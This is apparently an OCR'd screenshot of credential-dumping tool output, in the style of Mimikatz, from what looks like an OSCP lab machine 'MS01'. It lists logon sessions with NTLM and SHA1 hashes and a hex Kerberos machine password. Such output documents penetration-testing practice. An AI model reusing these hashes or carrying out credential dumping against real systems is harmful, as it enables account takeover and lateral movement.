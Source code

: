  44 89 c3 de 85 dc ba 86 15 e2 39 3f a4 b7 ad 31 5a 4d e7 05 ee 10 12 d1 96 c6 8f ef 4d 24 b8 b7 45 24 09 ad d0 c7 d6 09 bf a5 56 a4 0b 21 e5 6a b2 66 7b 2c 27 2d 5d e7 f9 8e e8 97 5b f8
 90 f8 b3 18 fc fe 6d 4f cd 35 ab c0 2f d2 b7 ac 3c 17 d6 5a dc fd f4 56 dd 90 1c 30 69 af e8 9e 5c f4 d4 2b 9c eb 62 be a4 b7 7d 81 36 96 23 21 f0 6a 1a 24 47 17 ec 31 dd 13 38 f6 75 d2
 28 ba e7 e3 5e 22 f4 5f bd b3 7d 5b 82 05 ca 14 3b 57 dd 4f 8d 2e 82 71 a5 73 dc 2a 28 b1 f1 b9 28 d1 e7 b2 34 fe 51 8e 2a d1 d9 2d 46 0e b4 9b 3a 8d 1d a9 60 65 6d 45 ab f1 db 92 a5   
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 47567 (00000000:0000b9cf)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 1:40:42 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : 23294455e7accb45307da296ddac1746
         * SHA1     : 149755a05e84633fe17e696818dc6a9d0b3028ec
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS01$
         * Domain   : oscp.exam
         * Password : 3f e3 bf a8 97 89 16 9e 5f 7f 5f 84 76 32 d0 b2 ad 10 1f bb 2f 7a e8 7d 3b 4f 0e e0 f4 1c 4b b3 0e a6 c8 66 e5 ea ca 2b d1 84 c6 43 25 ff da 04 7a dd f3 3c 49 b2 4e
 44 89 c3 de 85 dc ba 86 15 e2 39 3f a4 b7 ad 31 5a 4d e7 05 ee 10 12 d1 96 c6 8f ef 4d 24 b8 b7 45 24 09 ad d0 c7 d6 09 bf a5 56 a4 0b 21 e5 6a b2 66 7b 2c 27 2d 5d e7 f9 8e e8 97 5b f8
 90 f8 b3 18 fc fe 6d 4f cd 35 ab c0 2f d2 b7 ac 3c 17 d6 5a dc fd f4 56 dd 90 1c 30 69 af e8 9e 5c f4 d4 2b 9c eb 62 be a4 b7 7d 81 36 96 23 21 f0 6a 1a 24 47 17 ec 31 dd 13 38 f6 75 d2
 28 ba e7 e3 5e 22 f4 5f bd b3 7d 5b 82 05 ca 14 3b 57 dd 4f 8d 2e 82 71 a5 73 dc 2a 28 b1 f1 b9 28 d1 e7 b2 34 fe 51 8e 2a d1 d9 2d 46 0e b4 9b 3a 8d 1d a9 60 65 6d 45 ab f1 db 92 a5 
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 47513 (00000000:0000b999)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 2/12/2025 1:40:42 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : 23294455e7accb45307da296ddac1746
         * SHA1     : 149755a05e84633fe17e696818dc6a9d0b3028ec
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS01$
         * Domain   : oscp.exam